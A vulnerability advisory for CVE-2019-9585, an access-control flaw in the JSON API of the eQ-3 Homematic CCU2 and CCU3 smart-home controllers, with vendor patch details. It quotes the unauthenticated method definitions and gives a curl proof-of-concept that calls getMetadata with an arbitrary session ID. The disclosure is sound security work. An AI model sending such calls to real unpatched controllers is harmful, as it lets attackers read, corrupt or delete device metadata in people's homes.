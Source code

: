 ```yaml
---
layout: post
title:  "CVE-2019-9585 eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata"
date:   2019-07-26 00:10:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9585
- Author: psytester
- Title: eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 9.9
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L
- Publishing Date: 26.07.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.04.2019
- Vendor confirmation: N.A.
- Vendor patch: CCU2 2.47.10 and CCU3 3.47.10
- Vendor Reference: [HMCCU-261] in changelog of CCU2 and CCU3
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7 tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the implementation of the CCU2 and CCU3, an Improper Access Control vulnerability has been identified, which can be exploited in order to retrieve, modify or delete internal MetaData.<br>
The system provides a JSON API. While some methods require a dedicated user access level identified by provided sessionID, a number of methods can also be used with any string as sessionID.

A code review of the file ```/www/api/methods.conf``` revealed that the ```Interface.setMetadata``` / ```Interface.getMetadata``` and ```Interface.removeMetadata``` method can be used without valid authentication.<br>
They require the _session_id_ parameter, but due to ```LEVEL NONE``` the SessionID value is never checked.
```
Interface.setMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/setmetadata.tcl
  INFO {Setzt ein Metadatum zu einem Object}
  ARGUMENTS {_session_id_ objectId dataId value}
}
 

Interface.getMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/getmetadata.tcl
  INFO {Gibt ein Metadatum zu einem Object zurück}
  ARGUMENTS {_session_id_ objectId dataId}
}

Interface.removeMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/removemetadata.tcl
  INFO {Entfernt ein Metadatum eines Objects}
  ARGUMENTS {_session_id_ objectId dataId}
}
```

Example method call without valid sessionID:
```
curl -X POST -k -i 'https://1.2.3.4/api/homematic.cgi' --data '{
  "version": "1.1",
  "method": "Interface.getMetadata",
  "params": {
    "_session_id_": "@unknownvalue@",
    "objectId": ".....",
	"dataId": "....."
  }
}'
```

If those Metadata gots corrupt by an attack, the WebUI is no longer able to show or modify the details of a device.
Settings-->Devices--> select "HM-RCV-50 BidCoS-RF" and press "Set" button might show up such error message:
```
Das Gerät mit der Seriennummer 'BidCoS-RF' vom Interface 'systemHacked' konnte nicht abgefragt werden!
```

# CVE

[CVE-2019-9585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9585)

# CVSSv3 Base Score

CVSSv3 Base Score: 9.9

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
